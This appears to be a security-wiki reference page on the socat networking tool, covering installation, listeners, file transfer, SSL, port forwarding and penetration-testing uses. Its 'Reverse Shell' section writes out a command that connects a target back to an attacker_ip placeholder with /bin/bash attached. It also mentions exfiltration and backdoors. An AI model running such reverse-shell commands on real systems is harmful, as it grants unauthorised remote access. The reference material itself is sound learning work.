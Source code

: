 ## Overview
`socat` (short for "SOcket CAT") is a versatile networking tool similar to `netcat` and `ncat`. It establishes two bidirectional data streams and transfers data between them. Socat supports a wide range of network protocols and can handle multiple types of connections, including TCP, UDP, SSL, UNIX sockets, and more. This flexibility makes it an essential tool for network administrators, penetration testers, and security researchers for tasks like network debugging, port forwarding, tunneling, and setting up proxies.

In cybersecurity, `socat` is often used to create secure tunnels, relay traffic, and establish reverse shells, making it a valuable tool for both offensive and defensive security operations.

## Features
- **Supports Multiple Protocols:** Handles TCP, UDP, SSL, UNIX sockets, and more, making it versatile for various networking tasks.
- **Bidirectional Data Transfers:** Capable of transferring data between two or more endpoints simultaneously.
- **Port Forwarding and Tunneling:** Can be used to forward network traffic and create tunnels through firewalls and network boundaries.
- **Proxy and Relay Functionality:** Acts as a proxy server or a relay to redirect traffic between different networks or protocols.
- **Encryption and SSL/TLS Support:** Supports SSL/TLS encryption to secure communications over insecure networks.
- **Cross-Platform:** Available for Linux, macOS, and Windows.

## Website
- [Socat GitHub Repository](https://github.com/zert/socat)

## Installation

### On Unix-based systems (Linux/macOS):
1. **Install Socat via Package Manager:**
   - On Debian-based systems:
```sh
sudo apt-get install socat
```
   - On Red Hat-based systems:
```sh
sudo yum install socat
```
   - On macOS using Homebrew:
     ```sh
     brew install socat
     ```

2. **Build from Source:**
   - Clone the repository from GitHub:
```sh
git clone https://github.com/zert/socat.git
cd socat
./configure
make
sudo make install
```

### On Windows:
1. **Download from Cygwin or MinGW:**
   - Install Socat using Cygwin or MinGW. You can find Socat in the package selection menu during installation.

## Basic Usage
Socat is run from the command line interface (CLI). Here are some common commands and usage examples:

### Simple TCP Listener
To create a simple TCP listener on a specific port:
```sh
socat TCP-LISTEN:1234,fork,reuseaddr -
```

### Connect to a Remote Server
To connect to a remote server on a specific port:
```sh
socat - TCP:remote_ip:port
```

### File Transfer
To transfer a file using Socat:
1. **On the receiving machine:**
   ```sh
   socat TCP-LISTEN:1234,fork,reuseaddr FILE:outputfile.txt
   ```
2. **On the sending machine:**
```sh
socat FILE:inputfile.txt TCP:receiver_ip:1234
```

### Encrypted Communication with SSL
To establish a secure, encrypted communication channel using SSL:
1. **Start Socat with SSL on the server:**
```sh
socat openssl-listen:1234,cert=server.pem,verify=0 -
```
2. **Connect to the server with SSL:**
```sh
socat - openssl:server_ip:1234,verify=0
```

### Port Forwarding and Tunneling
To forward traffic from one port to another:
```sh
socat TCP-LISTEN:8080,fork,reuseaddr TCP:target_ip:80
```

### Reverse Shell
To establish a reverse shell connection:
1. **Start Socat listener on the attacker's machine:**
```sh
socat TCP-LISTEN:4444,fork EXEC:/bin/bash
```
2. **Connect back from the target machine:**
```sh
socat TCP:attacker_ip:4444 EXEC:/bin/bash
```

## Key Features and Options

### Handling Multiple Protocols
- **Description:** `socat` supports various network protocols, including TCP, UDP, SSL/TLS, UNIX sockets, and more.
- **Usage:**
```sh
socat TCP-LISTEN:1234,fork UDP:remote_ip:5678
```

### Proxy Server
- **Description:** Use `socat` to set up a simple proxy server to forward traffic between networks or devices.
- **Usage:**
```sh
socat TCP-LISTEN:8080,fork,reuseaddr TCP:target_ip:80
```

### Data Relay and Forwarding
- **Description:** Relay data between different types of connections or protocols, such as forwarding UDP traffic to a TCP socket.
- **Usage:**
```sh
socat UDP-LISTEN:9999,fork TCP:target_ip:8888
```

### SSL/TLS Encryption
- **Description:** Secure communications with SSL/TLS encryption to protect data in transit.
- **Usage:**
```sh
socat openssl-listen:443,cert=mycert.pem,cafile=mycafile.pem,verify=0 -
```

### Stdin and Stdout Redirection
- **Description:** Redirect standard input and output between processes or network connections, useful for creating reverse shells or simple chat servers.
- **Usage:**
```sh
socat - TCP:server_ip:port
```

## Tools for Network Security and Penetration Testing Using Socat

- **Port Forwarding and Tunneling:** Use Socat to forward network traffic and create tunnels through firewalls or network boundaries.
- **Encrypted Communication:** Securely communicate over insecure networks using SSL/TLS encryption.
- **File Transfers and Data Exfiltration:** Transfer files between systems or exfiltrate data during penetration tests.
- **Network Debugging and Testing:** Test network services and debug applications by relaying or capturing traffic.
- **Remote Access and Reverse Shell Creation:** Establish reverse shells and backdoors to maintain access to compromised systems during post-exploitation.

## Best Practices
- **Use Socat Responsibly:** Always ensure that you have permission before using Socat for network tunneling, forwarding, or creating reverse shells.
- **Encrypt Sensitive Communications:** Utilize SSL/TLS encryption for sensitive communications to protect data in transit from interception.
- **Monitor Network Traffic:** Regularly monitor network traffic for unauthorized use of Socat or similar tools to detect potential intrusions.
- **Combine with Other Tools:** Use Socat alongside other networking tools like [[Netcat]], [[Ncat]], and [[Wireshark]] for comprehensive network assessments.
- **Keep Socat Updated:** Regularly update Socat to benefit from the latest features, security enhancements, and bug fixes.

## References
- [Socat GitHub Repository](https://github.com/zert/socat)
- [Socat Command Reference](https://www.dest-unreach.org/socat/doc/socat.html)
- [Socat Examples for Network Administration](https://www.redhat.com/sysadmin/socat-command-examples)
- [Using Socat for Penetration Testing](https://null-byte.wonderhowto.com/how-to/use-socat-redirect-network-traffic-and-create-simple-clone-netcat-0196767/)

